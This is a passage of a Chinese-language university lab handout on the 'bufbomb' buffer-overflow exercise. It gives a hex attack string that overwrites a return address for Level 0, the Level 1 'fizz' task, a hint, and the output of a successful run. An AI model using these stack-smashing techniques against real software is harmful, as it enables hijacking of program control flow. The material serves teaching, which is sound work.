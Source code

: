 结果就是：

```
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00 00 
00 00 00 00
17 94 04 08
```

前49个字节的0用来覆盖buf，然后4个字节的00覆盖%ebp，最后4个字节为返回地址

## 2. Level 1: fizz[¶](https://comp3052.p.cs-lab.top/lab1/part2/#2-level-1-fizz)

在bufbomb程序中有一个fizz函数，其代码如下：

```
/* 跳转目标函数 */
void fizz(int val)
{
   if (val == cookie) {
       printf("Fizz!: You called fizz(0x%x)\n", val);
       validate(1);
   } else
       printf("Misfire: You called fizz(0x%x)\n", val);
   exit(0);
}
```

与Level 0相似，本实验的目标是操纵bufbomb程序，使其在getbuf函数执行return语句后，不再返回至test函数，而是跳转到并执行fizz函数的代码。然而，与Level 0中的smoke函数不同，fizz函数在调用时需要一个特定的输入参数。这个参数必须准确地等于通过makecookie函数生成的cookie值。因此，本实验的挑战在于如何精心构造攻击字符串，以确保在缓冲区溢出发生时，不仅能使控制流转向fizz函数，而且还能正确传递所需的cookie参数值。

##### 一种可能的解题思路:-)

程序无需真的调用fizz。只需跳至fizz函数的特定指令（例如访问/传送被比较数值的指令）开始执行。因此需要仔细考虑将cookie放置在栈中什么位置。

- 攻击（修改）返回地址区域
- 修改被引用的栈存储数值

攻击成功显示如下：

```
linux>cat fizz.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Fizz!: You called fizz(0x25e1304b)
VALID
NICE JOB!
```
